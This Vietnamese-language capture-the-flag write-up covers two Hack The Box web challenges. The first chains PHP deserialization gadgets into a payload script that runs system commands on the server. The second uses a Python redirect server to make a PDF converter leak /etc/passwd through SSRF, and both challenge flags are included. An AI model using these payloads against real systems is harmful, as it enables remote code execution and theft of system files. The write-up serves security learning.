# POP Restaurant
## Liệt Kê Và Phân Tích

Đầu tiên chúng ta cần khởi tạo phiên bản.Sau khi vào thử thách trang web sẽ hiển thị 1 trang order thức ăn với 2 chức năng ban đầu <b>Login</b> và <b>Register</b>

Chúng ta cùng tạo 1 tài khoản và tiến hành đăng nhập vào ứng dụng thử order các thức ăn thì nó hiển thị như sau

Ở BurpSuite có dữ liệu data chúng ta cùng decode thử dạng này theo base64

Ở đây tôi phát hiện mùi quá trình hủy tuần tự hóa và chúng ta cùng đi sâu tiếp theo.

Ở thử thách có cung cấp mã nguồn chúng ta cùng tải xuống và phân tích mã nguồn sau khi xem xét qua mã nguồn chúng ta có thể tập trung các file sau đây: 
1. ArrayHelpers.php
2. IceCreamModel.php
3. PizzaModel.php
4. SpaghetiModel.php
5. Order.php
Cùng đi sâu vào phân tích từng cái nhé: <b>PizzaModel.php</b>
```php
<?php
	class Pizza
	{
		public $price;
		public $cheese;
		public $size;

		public function __destruct()
		{
			echo $this->size->what;
		}
	}
```
Ở lớp Pizza bị hủy, truy cập <b>$this->size->what</b> (không tồn tại) -> Gọi <b>Spaghetti::__get()</b>
```php
<?php

class Spaghetti
{
    public $sauce;
    public $noodles;
    public $portion;

    public function __get($tomato)
    {
        ($this->sauce)();
    }
}
```
<b>$this->sauce</b> là IceCream gọi hàm: <b>__invoke()</b> sẽ được kích hoạt

```php
<?php
	class IceCream
	{
		public $flavors;
		public $topping;

		public function __invoke()
		{
			foreach ($this->flavors as $flavor) {
				echo $flavor;
			}
		}
	}
```
<b>$this->flavors</b> là <b>ArrayHelpers</b> là một object iterable (implements IteratorAggregate). Khi lặp <b>$this->flavors</b> PHP gọi: <b>ArrayHelpers::getIterator()</b> trong đó:

```php
<?php

namespace Helpers{
    use \ArrayIterator;
	class ArrayHelpers extends ArrayIterator
	{
		public $callback;

		public function current()
		{
			$value = parent::current();
			$debug = call_user_func($this->callback, $value);
			return $value;
		}
	}
}
```
Nó sẽ gọi call_user_func với tham số callback bằng cách đưa giá trị system còn $value đưa giá trị id chẳng hạn thì khi hủy tuần tự hóa nó sẽ thực thi <b>system('id')</b> đặc biệt ở order.php
```php
$order = unserialize(base64_decode($_POST['data']));
$foodName = get_class($order);
```
Khi order vơi foodname nó sẽ  unserialize đầu vào dữ liệu không xác thực vệ sinh nên điều đó chúng ta có thể dẫn đến khai thác lỗ hổng <b>Insecure Deserialization</b>
### Khai Thác
Tới đây chúng ta có thể xây dựng payload để khai thác hủy tuần tự hóa ở food như sau tôi sẽ viết tập lệnh PHP như sau:
```php
<?php
namespace Helpers {
    class ArrayHelpers extends \ArrayIterator
    {
        public $callback;

        public function current(){
            $value = parent::current();
            $debug = call_user_func($this->callback, $value);
            return $value;
        }
    }
}
namespace {

    use Helpers\ArrayHelpers;

    class IceCream
    {
        public $flavors;
        public $topping;
    }

    class Spaghetti
    {
        public $sauce;
        public $noodles;
        public $portion;
    }

    class Pizza
    {
        public $price;
        public $cheese;
        public $size;
    }
    
    $ArrayHelpers = new ArrayHelpers(['id']);
    $ArrayHelpers->callback = 'system';

    $IceCream = new IceCream();
    $IceCream->flavors = $ArrayHelpers;

    $Spaghetti = new Spaghetti();
    $Spaghetti->sauce = $IceCream;

    $Pizza = new Pizza();
    $Pizza->size = $Spaghetti;

    $serialized = serialize($Pizza);

    $encoded = base64_encode($serialized);

    echo "Serialized and encoded payload done:\n";
    echo $encoded . "\n";
}
```
Giải thích ở mã nguồn khai thác trên như sau giả sử có có chuỗi Object như sau:
```php
$Pizza->size = $Spaghetti;
$Spaghetti->sauce = $IceCream;
$IceCream->flavors = $ArrayHelpers;
$ArrayHelpers->callback = 'system';
$ArrayHelpers->array = ['whoami'];
```
Khi Pizza::__destruct() gọi $this->size->what, sẽ trigger:
1. Spaghetti::__get() → gọi $this->sauce()
2. IceCream::__invoke() → lặp qua $this->flavors (là ArrayHelpers)
3. ArrayHelpers::current() được gọi
4. call_user_func('system', 'whoami') được thực thi 

Chúng ta cùng kiểm tra nhé.

Chúng ta đã thành công Inject được bây giờ kiểm tra Flag  bằng cách thay đổi tải trọng trên nhé

<b>pBhfMBQlu9uT_flag.txt</b>
Trigger Flag: <b>HTB{jU5t_del1ver_m3_th3_fl4g}</b>

# PDFy

Cùng khởi động phiên Thử Thách
## Liệt Kê Và Phân Tích
Ở đây trang nó hiển thị về 1 phần chuyển đổi sang định dạng PDF 

Tới đây tôi thử nghiệm <b>http://google.com</b> Thì nó chuyển đổi trang google thành 1 file PDF

Cùng với mô tả thử thách chúng ta cần rò rỉ được nội dung <b>/etc/passwd để lấy được FLAG</b> ở đây ở những dạng này nó thường là một SSRF mục tiêu bây giờ chúng ta cần làm sao để khi nó render ra file PDF nó sẽ chuyển hướng đến /etc/passwd.
Sau một hồi tôi thử nghiệm với ngrok thì nhận ra ngrok free nó sẽ bị lỗi khi render ra PDF và chuyển thành file trống và sau quá trình tìm hiểu bây giờ vào khai thác bằng cách host 1 file redirect về file /etc/passwd sử dụng một miền <b>cloudflared</b> để lưu trữ nội bộ của tôi.
## Khai thác
Tôi sẽ viết tập lệnh python redirect về /etc/passwd khi render ra PDF như sau:
```python
from http.server import HTTPServer, BaseHTTPRequestHandler
class RedirectHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(302)
        self.send_header('Location', 'file:///etc/passwd')
        self.end_headers()

if __name__ == '__main__':
    HTTPServer(('0.0.0.0', 8000), RedirectHandler).serve_forever()
```
Lưu trữ nó và chạy file này:

Sử dụng cloudflared để host nội bộ của tôi.

Bây giờ cùng truy cập vào web nhé và đã thành công leak được file: /etc/passwd


Trigger Flag: <b>HTB{pdF_g3n3r4t1on_g03s_brrr!}</b>


